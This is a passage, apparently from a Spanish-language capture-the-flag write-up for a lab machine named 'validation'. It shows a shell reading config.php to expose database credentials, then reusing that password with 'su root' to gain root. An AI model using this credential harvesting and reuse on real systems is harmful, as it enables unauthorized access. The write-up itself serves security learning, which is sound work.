 ```
www-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

Al inspeccionar el `/etc/passwd` nos damos cuenta que el único usuario que hay posible es root, así que probamos la contraseña `uhc-9qual-global-pw` para convertirnos en usuario `root` y funciona

```
www-data@validation:/var/www/html$ su root
Password: 
root@validation:/var/www/html# whoami
root
```
